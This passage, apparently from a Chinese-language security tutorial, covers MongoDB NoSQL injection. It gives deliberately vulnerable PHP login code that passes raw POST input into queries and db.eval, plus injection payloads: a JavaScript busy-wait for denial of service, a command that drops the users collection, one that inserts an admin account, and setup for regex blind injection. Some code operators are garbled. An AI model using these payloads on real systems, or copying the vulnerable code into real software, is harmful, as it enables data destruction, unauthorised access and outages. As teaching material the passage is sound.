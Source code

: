 - 从上面的注入过程中不难看出 password 中的 `return true` 让整个 JavaScript 代码提前结束并返回了 true，成功构造出一个永真条件来绕过并完成 Nosql 注入

- DOS类攻击 Payload
```sql
username=1&password=1';(function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<5000); return Math.max();})();var a='1
```
### Command 方法注入
- MongoDB Driver 一般都提供直接执行 Shell 命令的方法，这些方式一般是不推荐使用的，但难免有人为了实现一些复杂的查询去使用，在 MongoDB 的服务器端可以通过 `db.eval` 方法来执行 JavaScript 脚本例如可以定义一个 JavaScript 函数，然后通过 `db.eval` 在服务器端来运行

```php

<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];

$cmd = new MongoDB\Driver\Command( [
    'eval' ="db.users.distinct('username',{'username':'$username'})"
] );

$result = $manager->executeCommand('test.users', $cmd)->toArray();
$count = count($result);
if ($count 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```
- Payload如下

```sql
username=1'});db.users.drop();db.user.find({'username':'1
username=1'});db.users.insert({"username":"admin","password":123456"});db.users.find({'username':'1
```
## 布尔盲注
- 当页面没有回显时可以通过 `$regex` 正则表达式来进行盲注，`$regex` 可以达到和传统 SQL 注入中 `substr` 函数相同的功能

```php
<?php
show_source();

$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' =$username,
    'password' =$password
));

$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
```